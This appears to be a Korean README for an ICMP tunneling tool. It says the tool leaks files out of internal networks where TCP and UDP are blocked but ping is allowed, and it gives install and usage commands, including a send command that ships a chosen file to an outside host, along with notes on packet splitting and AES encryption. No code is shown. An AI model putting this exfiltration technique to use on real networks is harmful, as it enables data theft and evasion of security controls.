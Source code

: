 # icmp-tunneling-tool

- date: 2022.10.15

## Summary

TCP, UDP 프로토콜이 차단된 내부 망이 있을 때, 내부에서 외부로 ping이 가능한 경우(즉, ICMP 프로토콜이 막히지 않는 경우) 데이터를 유출할 수 있는 ICMP tunneling 기법으로 데이터를 유출시키는 도구.


## install

    $ ./install.sh
    $ pip install -r requirements.txt


## Usage

    (receive)$ python3 receive.py
    (send)$ sudo -E python3 send.py <hostname> <filename> [-e]


## Details

send.py
- 원하는 IP 지정
- binary 파일 전송
    - metadata(filename, content length, id) 함께 보내야 함
        - filename: 실제 파일 명
        - content length: 파일의 길이
        - id: 파일을 분할할 때, 패킷의 고유번호 (0, 1, 2, ...)
- 데이터 암호화 지원
    - AES-CBC 대칭키 암호화

receive.py
- 발송 IP 지정
- 분할된 패킷 재조합 (filename, id 이용하여)
- content length 검증
- 데이터 복호화
- 실제 파일로 저장
